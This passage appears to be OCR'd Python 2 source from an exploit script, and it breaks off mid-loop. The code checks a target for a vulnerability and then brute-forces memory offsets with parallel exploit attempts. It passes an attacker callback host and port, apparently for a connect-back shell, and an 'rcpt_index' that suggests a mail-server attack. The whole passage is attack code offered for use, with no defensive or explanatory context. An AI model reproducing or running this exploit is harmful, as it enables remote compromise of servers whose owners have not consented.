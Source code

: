      target = sys.argv[3]
     cb = sys.argv[1]
     cbport = sys.argv[2]

     if len(sys.argv) == 8:
      print "reuse fixed offsets"
      b1 = int(sys.argv[4], 16)
      b2 = int(sys.argv[5], 16)
      b3 = int(sys.argv[6], 16)
      rcpt_index = int(sys.argv[7], 16)

      try:
        exploit(b1, b2, b3, rcpt_index, target, cb, cbport)
      except Exception as e:
        print e
      sys.exit(1)

     print "check vuln"
     if not checkvuln(target):
      print "false"
      sys.exit(1)

     print "true"
     test=False

     allbytes = [offset for offset in xrange(0, 0x110)]
     allbytes_10 = [offset for offset in xrange(0x10, 0x110, 0x10)]
     b3_survived = []

     b3_survived_stop = False
     tested = []
     try:
       q = Queue()
       procs = []
       print
       print "Discover first byte in offset"
       print
       sys.stdout.write("Try Offsets %02x%02x%02x to %02x%02x%02x ..." % (0x00,0xff,0xff,0xff,0xff,0xff))
       for b3 in allbytes:
         if b3 % 0x10 == 0 and b3 <= 0xff:
          sys.stdout.write("\rTry Offsets %02x%02x%02x to %02x%02x%02x ..." % (b3,0xff,0xff,0xff,0xff,0xff))

         b1 = 0x00

         for b2 in allbytes_10:
          proc = Process(target=_exploit, args=(b1, b2, b3, rcpt_index_start, target, cb, cbport, q))
          procs.append(proc)
          proc.daemon = True
          proc.start()

          to_break = False
          if len(procs) == 16:
           for i in xrange(0,16):
             result = q.get()
             if result[3] == "BYTE":
               if [b3, b2] not in tested:
                tested.append([b3, b2])
                b3_survived.append(result[2])
                sys.stdout.write("\nOffset %02x%02x%02x Survived ..." % (result[2],result[1],result[0]))
               else:
                to_break = True
